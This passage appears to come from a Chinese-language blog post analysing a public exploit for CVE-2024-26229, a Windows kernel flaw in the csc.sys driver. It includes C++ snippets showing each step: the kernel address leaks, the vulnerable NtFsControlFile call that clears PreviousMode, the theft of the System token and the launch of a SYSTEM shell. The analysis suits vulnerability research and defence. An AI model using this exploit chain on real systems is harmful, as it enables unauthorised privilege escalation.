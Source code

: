 ```cpp
      || NumberOfBytesToOp + Buffer > 0x7FFFFFFF0000i64 )
    {
      return 0xC0000005i64;
    }
    // skip other code
  }
}
```

也就是说，当我们能够想办法将当前线程的`PreviouseMode`值为0的时候，我们即可绕过内存地址检查，直接调用`NtReadVirtualMemory`或者`NtWriteVirtualMemory`实现真正意义的任意地址写

#### 最终的攻击

当我们能够实现任意地址写，即可配合[这个github中提到的Windows常见泄露技巧](https://github.com/sam-b/windows_kernel_address_leaks/tree/master)，尝试泄露敏感进程（System进程）的Token，并且将该Token写入我们当前进程，即可实现提权。

这边结合[公开的脚本](https://github.com/varwara/CVE-2024-26229/blob/main/CVE-2024-26229.c)分析一下利用流程

1. 首先利用由`NtQuerySystemInformation`封装的函数`GetObjPtr`泄露System进程的`EPROCESS`以及当前线程的`ETHREAD`：

```cpp
GetObjPtr(&Sysproc, 4, 4); // 泄露System EPROCESS，准备从这边获取token

Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread); // 获取当前线程ETHREAD，进行PreviousMode替换

hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId()); // 泄露当前进程的EPROCESS，准备替换token
```

2. 触发漏洞，将当前线程PreviousMode改写成0

```cpp
status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, /*Vuln arg*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
if (!NT_SUCCESS(status))
{
    printf("[-] NtFsControlFile failed with status = %x\n", status);
    return status;
}
```

3. 此时，可以实现往内核地址的读写，将System进程Token地址拷贝到当前进程

```cpp
Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);
```

4. 恢复PreviousMode，此时该进程完成提权

```cpp
//
// Restoring KTHREAD->PreviousMode
//
Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

//
// spawn the shell with "nt authority\system"
//

system("cmd.exe");
```
